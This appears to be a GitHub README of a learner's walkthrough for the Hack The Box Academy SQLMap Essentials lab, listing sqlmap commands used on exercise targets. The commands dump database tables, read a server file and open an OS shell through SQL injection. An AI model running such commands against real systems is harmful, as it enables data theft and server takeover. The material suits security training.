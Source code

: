 This repository contains my walkthrough and notes from the SQLMap Essentials module on Hack The Box Academy. The exercises and final assessment helped sharpen my skills in identifying and exploiting SQL Injection vulnerabilities using SQLMap.

## Module Exercises ##

## Case 1: Basic Dump ##
```bash 
sqlmap -r Case1.txt --threads 10 --dump -T flag1 -D testdb --dbms=MySQL --batch
```
## Case 2: Simple Request ##
```bash
sqlmap -r Case2.txt --threads 10 --dump -T flag2 --batch
```
## Case 3: Cookie-Based Injection ##
```bash 
sqlmap -r Case3.txt -p cookie --threads 10 --dump -T flag3 --batch
```
## Case 4: Simple Dump ##

sqlmap -r Case4.txt --threads 10 --dump -T flag4 --batch

## Case 5: Time-Based Blind SQLi ##

sqlmap -r Case5.txt --batch --dump -T flag5 -D testdb \
--no-cast --dbms=MySQL --technique=T --time-sec=10 --level=5 --risk=3 --fresh-queries

## Case 6: Using Prefix Payload ##

sqlmap -r Case6.txt --batch --dump -T flag6 -D testdb \
--no-cast --level=5 --risk=3 --prefix='`)'

## Case 7: Union-Based Injection ##

sqlmap -r Case7.txt --batch --dump -T flag7 -D testdb \
--no-cast --level=5 --risk=3 --union-cols=5 --dbms=MySQL

## Case 8: CSRF Token Handling ##

sqlmap -r case8.txt --batch -p "id" --csrf-token="t0ken" \
--dbms MySQL -D testdb -T flag8 --dump --flush-session --no-cast

## Case 9: Randomized Parameter ##

sqlmap -r Case9.txt -T flag9 --dump --risk=3 --level=5 --batch --randomize=uid

## Case 10: Random Agent ##

sqlmap -r case10.txt --batch -p "id" --random-agent \
--dbms MySQL -D testdb -T flag10 --dump --flush-session --no-cast

## Case 11: Tamper Script ##

sqlmap -r case11.txt --batch -p "id" --tamper=between \
--dbms MySQL -D testdb -T flag11 --dump --flush-session --no-cast

## File Reading & OS Shell ##

sqlmap -r read_file.txt --is-dba
sqlmap -r read_file.txt --file-read="/var/www/html/flag.txt"
cat ~/.local/share/sqlmap/output/94.237.58.172/files/_var_www_html_flag.txt

## OS Shell Access ##

sqlmap -u "http://94.237.58.172:59643?id=1" --os-shell --technique=E --batch
find / -type f -iname "*flag*" 2>/dev/null

## Skills Assessment: Minishop Web App ##

## Overview ##
**Application** : Minishop
**Pages Analyzed**: Blog, Contact Us, Catalog
### Findings
**Blog**: Not vulnerable (form action is '#')
**Contact Us**: Not vulnerable (form action is '#')
**Catalog (/shop)**: Vulnerable — uses JavaScript to post JSON to action.php

## Exploitation
### Intercepted request using Burp Suite
### Saved to shop.txt

## Exploited with SQLMap:

sqlmap -r shop.txt --batch -p 'id' --random-agent \
--tamper=between --dbms=MySQL -D production -T final_flag --dump

## Outcome

Successfully dumped final_flag table from the production database.

## Conclusion

**This module strengthened my understanding of:**

_SQL injection techniques (Boolean-based, Time-based, Union-based)
_
_Tamper scripts, CSRF tokens, and header injection_

_File read and OS shell interaction_

_Real-world application analysis and exploitation_

_I plan to continue my journey through the Hack The Box Pentester Pathway, with a focus on advanced web application testing, mobile app security, and red team tactics._

## 📁 Repository Structure

.
├── cases/
│   ├── Case1.txt
│   ├── Case2.txt
│   └── ...
├── shop.txt
├── read_file.txt
├── sqlmap_commands.md
└── README.md  <-- (this file)

Feel free to fork this repository and use it as a reference for your own HTB Academy progress!

## 📜 License

This project is licensed under the MIT License.
